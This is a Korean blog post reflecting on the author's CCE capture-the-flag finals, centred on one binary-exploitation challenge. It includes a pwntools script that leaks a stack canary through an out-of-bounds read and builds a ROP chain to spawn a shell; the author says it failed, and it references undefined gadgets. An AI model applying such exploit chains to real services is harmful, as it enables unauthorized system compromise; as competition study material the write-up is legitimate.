






# cce 본선 후기
<br>
<br>

## 대회 시작 전

일단 매우 떨렸다.

cce 예선에서는 heapappy라는 이름의 **포너블 한 문제**밖에 못풀었는데 본선에서 1솔을 할 수 있을지에 대한 걱정이 매우 컸다.

또한, 본선은 **Live Fire**이라는 실시간 패치 문제도 있다고 해서 굉장히 떨렸다.

대회 장소도 굉장히 컸고 선물로 받은 텀블러도 매우 커서 스케일이 압도적이라는 것은 또 한번 느꼈다.



## 대회 시작

지금까지 봤던 CTF 사이트의 구조와는 완전히 달랐다.

내가 그동안 접한 CTF는 분야를 알려줬었는데 CCE 본선에서는 **분야가 적혀있지** 않았다.

일단 난 nc가 문제 설명에 적혀있는 것만이 포너블 문제라고 생각했고 적힌 문제들만을 다운받았다.

### 그렇게 받은 문제들의 수는 단 **2개**였다.



솔직히 9시간동안 2문제인게 말이 안된다고 생각해서 당연히 추가 문제가 있을거라고 생각했다.

##### 근데 그게 다였다
<br>

어떻게 보면 당연하다고 느껴진다. 

**매우 어려웠기 때문에**
<br>

<br>

내가 풀던 문제는 **LNG 경보센터**라는 문제다.

### 퍼솔이 30분만에 나오고 결국 45개팀이 푼 문제였다. 

**보안기법은 다 걸려있었다**.



그래도 겁먹지 말고 아는걸 다 쏟아야지 라는 생각을 했었다.

그렇게 **3시간이 지났다.**

**OOB**
**BOF**
### OOB와 BOF를 노릴만한 취약점을 발견했다!

그후 **카나리 릭을 성공**하게 되었다.

```python
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./prob')
#p = remote('3.38.199.229',54321)
e = ELF('./prob')
canary = b''
def canary_leak(n):
    global canary
    p.sendlineafter(b'Select: ',b'12')
    p.sendlineafter(b'Employee Number: ',str(n).encode())
    p.sendlineafter(b'Select: ',b'5')
    p.recvuntil(b'Storage Level: ')
    canary += p8(int(p.recvline()))

canary_leak(10250)
canary_leak(10506)
canary_leak(10762)
canary_leak(11018)
canary_leak(11274)
canary_leak(11530)
canary_leak(11786)
canary_leak(12042)

slog('canary',u64(canary))

p.sendlineafter(b'Select: ',b'11')
p.sendlineafter(b'Select: ',b'4')

pay = b'A'*40 + canary + B'b'*8 + p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts'])
p.sendafter(b'Write any remarks: ',pay)
p.recvuntil(b'Remarks: ')
put_got = u64(p.recvn(6)+ b'\x00\x00')
libc_base = put_got - 0x87be0
system = libc_base + 0x58750
binsh =libc_base + 0x1cb42f
slog('put_got', put_got)
slog('libc base', libc_base)
slog('system', system)
slog('binsh', binsh)

pay = b'A'*40 + p64(canary) + b'B'*8 +p64(ret)+ p64(pop_rdi) + p64(binsh) + p64(system)

p.sendlineafter(b'Select: ',b'11')
p.sendlineafter(b'Select: ',b'4')
p.sendafter(b'Write any remarks: ',pay)

p.interactive()
```
##### 카나리 릭과 실패한 ROP 익스 
### 남은건 libc_base다.

여기서 막혔다. 

**OOB로 libc_base까지 leak**했어야 했다.

하지만 경험 부족으로 인해 **계속 puts의 got를 leak하는 것만을 생각했다.**

지금보면 가능할 것도 같다.

###### 도커를 사용할줄 알았더라면..

libc파일을 구하는걸 offset 이용해서 할 생각만 했었다.

결과적으로 6시간동안 삽질하고 대회가 끝났다.

## 대회가 끝나고

바로 도커 사용법부터 하나하나 자세히 익혔다.

그리고 깨닫게 되었다.

### 도커 빌드만 했으면 libc 파일을 바로 구할 수 있었다는 것을

저 문제에는 ROP와 관련한 가젯들이 존재하지 않았다.
<br>

<br>

**즉, libc에서 가젯을 가져와야만 ROP가 가능했다.**

도커 사용법을 깨달은 후 libc파일을 구하고 바로 풀이에 성공했다.

1솔도 못했다는게 참 아쉬웠다. 풀 수 있었던 문제였다는 점에서 더욱 아쉬웠다.

심각한 내 실력을 기르기 위해 **앞으로의 방향성을 고민해보았다.**

- dreamvm 풀기 
- 5단계도 슬슬 풀기
- 아직 수강하지 못한 UAF, Format String Bug 수강하기
- 그 후 강좌 SROP까지 수강하기

저 4가지를 한다면 내년 cce는 본선에서 1솔은 할거라고 믿는다.

-끝-